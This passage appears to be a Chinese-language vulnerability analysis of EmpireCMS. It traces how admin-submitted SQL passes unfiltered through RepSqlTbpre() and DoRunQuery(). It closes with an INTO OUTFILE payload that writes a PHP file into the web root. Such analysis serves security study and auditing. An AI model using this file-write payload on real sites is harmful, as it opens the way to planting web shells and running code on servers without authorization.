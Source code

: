 ```php
	//操作日志
	insert_dolog("query=".$query);
	printerror("DoExecSqlSuccess","ListSql.php".hReturnEcmsHashStrHref2(1));
}
```

`$query=RepSqlTbpre($r['sqltext']);`：
sqltext就是网页中表格上传的内容，在函数ExecSql()中由RepSqlTbpre()处理

再来看一下RepSqlTbpre():

```php
function RepSqlTbpre($sql){#利用str_replace()将表的前缀进行替换
	global $dbtbpre;
	$sql=str_replace('[!db.pre!]',$dbtbpre,$sql#将表的前缀进行替换
	return $sql;
}
```

`DoRunQuery($query);`：对$query处理（去除空格）,用`;`分割然后遍历，无其他限制or过滤

```php
function DoRunQuery($sql){
	global $empire;
	$sql=str_replace("\r","\n",$sql);#将$sql中的"\r"以"\n"替换
	$ret=array();
	$num=0;
	foreach(explode(";\n",trim($sql)) as $query){#以;分割再遍历
    #explode使用一个字符串切割另一个字符串，并返回数组。这里使用";\n" 切割 trim($sql)
		$queries=explode("\n",trim($query));#trim()去除字符串首尾空白
		foreach($queries as $query)
		{
			$ret[$num].=$query[0]=='#'||$query[0].$query[1]=='--'?'':$query;
		}
		$num++;
	}
	unset($sql);
	foreach($ret as $query)
	{
		$query=trim($query);
		if($query)
		{
			$empire->query($query);
		}
	}
}
```

由此可执行恶意的sql语句



构造payload：(outfile、dumpfile)

```sql
select "<?php phpinfo(); ?>" into outfile "D:\\phpstudy_pro\\WWW\\empirecms\\myinfo.php"
```

